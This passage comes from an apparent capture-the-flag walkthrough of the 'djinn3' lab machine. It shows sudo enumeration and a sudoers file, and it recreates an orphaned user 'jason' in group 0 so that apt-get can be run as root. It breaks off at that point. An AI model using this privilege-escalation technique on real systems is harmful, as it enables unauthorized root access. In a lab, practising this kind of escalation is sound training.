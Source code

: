 Checking saint’s privileges reveals that we can run *adduser* as root without password:
```markdown
saint@djinn3:~$ sudo -l
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```
Besides, further enumerating the target reveals that *jason* can run *apt-get* as root without password, but the user seems not to exist (probably removed by an admin who forgot to remove the line in the *sudoers* file):
```markdown
saint@djinn3:~$ cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults    env_reset
Defaults    mail_badpass
Defaults    secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:
# If you need a huge list of used numbers please install the nmap package.

saint ALL=(root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

jason ALL=(root) PASSWD: /usr/bin/apt-get
```
Let’s recreate the user jason and add him to the root group (GID 0):
```markdown
sudo adduser jason --gid 0
```
Now, let’s switch to *jason*. As expected, we can run *apt-get* as *root*:
```markdown
saint@djinn3:~$ su jason
Password: 
jason@djinn3:/home/saint$ sudo -l
[sudo] password for jason: 
Matching Defaults entries for jason on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on djinn3:
    (root) PASSWD: /usr/bin/apt-get
```